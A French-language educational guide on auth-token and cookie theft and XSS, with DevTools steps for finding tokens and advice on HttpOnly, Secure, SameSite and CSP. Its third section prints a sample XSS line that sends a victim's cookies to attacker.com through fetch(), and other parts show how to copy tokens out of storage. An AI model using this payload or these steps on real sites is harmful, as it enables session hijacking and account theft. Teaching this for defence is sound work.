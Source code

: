 # Vol de `auth_token`, Cookies & Failles XSS : Guide Pratique

Ce document explique les risques liés au vol de tokens d'authentification, de cookies, et les failles XSS, ainsi que les outils/commandes pour les analyser via l'Inspector (DevTools).

---

## 1. Concepts Clés

### 🔑 **Vol de `auth_token`**
- **Qu'est-ce qu'un `auth_token`** ?  
  Un jeton (ex: JWT) utilisé pour authentifier un utilisateur sans renvoyer ses identifiants à chaque requête.
- **Où est-il stocké** ?  
  Souvent dans `localStorage`, `sessionStorage`, ou dans les **cookies**.
- **Attaques possibles** :  
  - Vol via XSS.  
  - Interception via MITM (Man-in-the-Middle).  

### 🍪 **Vol de Cookies**
- **Cookies sensibles** :  
  `session_id`, `token`, etc., avec des droits d'accès.
- **Risque principal** :  
  Si un cookie n'est pas marqué `HttpOnly`, il est accessible via JavaScript (`document.cookie`).

### 🎯 **XSS (Cross-Site Scripting)**
- **Définition** :  
  Injection de code JavaScript malveillant dans une page web, exécuté par les navigateurs des victimes.
- **Impact** :  
  Vol de cookies, redirection, modification du DOM, etc.

---

## 2. Utiliser l'Inspector (DevTools) pour Analyser

### 🔍 **Ouvrir l'Inspector**
- **Raccourci** : `F12` ou `Ctrl+Shift+I` (Windows) / `Cmd+Option+I` (Mac).

### 📝 **Onglet "Console"**
- **Vérifier l'accès aux cookies** :  
  ```javascript
  console.log(document.cookie); // Affiche les cookies NON marqués HttpOnly
Tester une XSS :

javascript
alert(document.cookie); // Si cela fonctionne, le site est vulnérable au XSS
📡 Onglet "Network"
Rafraîchissez la page.

Cliquez sur une requête HTTP (ex: /api/data).

Vérifiez les en-têtes (Headers) pour y trouver des tokens/cookies :

Authorization: Bearer <token>

Cookie: session_id=abc123

📂 Onglet "Application"
Cookies :
Affiche tous les cookies du domaine. Vérifiez les flags Secure, HttpOnly, et SameSite.

Local Storage / Session Storage :
Recherchez des tokens stockés ici (plus vulnérables que les cookies HttpOnly).

3. Commandes Utiles en Cas de Vulnérabilité
🛠 Exemple de Vol de Cookie via XSS
javascript
// Envoie les cookies de la victime à un serveur attaquant
fetch('https://attacker.com/steal?data=' + document.cookie);
🚨 Tester la Protection HttpOnly
Si document.cookie ne retourne pas un cookie sensible, il est marqué HttpOnly (sécurisé).

🔄 Modifier un Cookie (pour le test)
Dans l'onglet Application > Cookies, double-cliquez sur la valeur d'un cookie.

Modifiez-le et testez les droits d'accès (ex: session_id modifié).

4. Préventions
🛡 Contre le Vol de Tokens/Cookies
Cookies :

http
Set-Cookie: session_id=abc123; HttpOnly; Secure; SameSite=Strict
Tokens :
Ne pas les stocker dans localStorage (préférer les cookies HttpOnly).

🛑 Contre les XSS
Sanitize les entrées utilisateur avec des librairies comme DOMPurify.

Headers CSP (Content Security Policy) :

http
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.cdn.com
5. Conclusion
Vérifiez toujours où sont stockés les tokens/cookies.

Testez les flags HttpOnly/Secure via l'onglet Application.

Auditez les entrées utilisateur pour bloquer les XSS.

⚠️ Attention : Ces techniques doivent être utilisées uniquement à des fins de test autorisées.

trouver un auth_token via l'Inspector (Chrome DevTools) selon son emplacement de stockage :

1. Dans les Cookies
Étapes :
Ouvrez l'Inspector (F12 ou Ctrl+Shift+I).

Allez dans l'onglet Application > Cookies (dans le menu de gauche).

Sélectionnez le domaine du site actuel.

Cherchez un cookie nommé :

auth_token

token

jwt

session_token

Ou un nom personnalisé (ex: app_auth).

⚠️ Si le cookie est marqué HttpOnly :

Il n'est pas accessible via JavaScript (pas de document.cookie), mais peut être envoyé automatiquement dans les requêtes HTTP.

2. Dans le localStorage ou sessionStorage
Étapes :
Dans l'onglet Application, développez Local Storage ou Session Storage.

Sélectionnez le domaine du site.

Cherchez des clés comme :

authToken

userToken

access_token

jwtToken

🔍 Accéder via la Console :

javascript
console.log(localStorage.getItem('auth_token')); // Remplacez par la clé exacte
3. Dans les En-têtes HTTP (Headers)
Si le token est envoyé via l'en-tête Authorization (ex: Bearer <token>) :

Allez dans l'onglet Network.

Rafraîchissez la page ou déclenchez une action (ex: clic sur "Connexion").

Sélectionnez une requête API (ex: /api/user).

Dans les Headers de la requête, cherchez :

Authorization: Bearer eyJhbGciOi... (le token est après "Bearer ")

Ou un en-tête personnalisé comme X-Auth-Token.

4. Via la Console (Si le token est accessible en JS)
Exécutez ces commandes dans l'onglet Console :

javascript
// Lister tous les cookies non HttpOnly
console.log(document.cookie);

// Afficher le localStorage
console.log(localStorage);

// Afficher le sessionStorage
console.log(sessionStorage);

// Recherche ciblée (exemple)
console.log(localStorage.getItem('token'));
5. Cas Pratique : Token dans localStorage
Ouvrez Application > Local Storage > [Domaine].

Repérez une entrée comme :

json
{
  "user": "john",
  "auth_token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."
}
Copiez la valeur de auth_token.

🔒 Vérifications de Sécurité
Si le token est dans localStorage :
Il est vulnérable aux attaques XSS (un script peut le voler).

Si le token est dans un cookie :
Vérifiez les flags Secure, HttpOnly, et SameSite dans l'onglet Cookies.

⚠️ Attention
Ne partagez jamais un token trouvé (même en test).

Ces méthodes sont à utiliser uniquement en environnement autorisé (pentest éthique, debug de votre propre app).
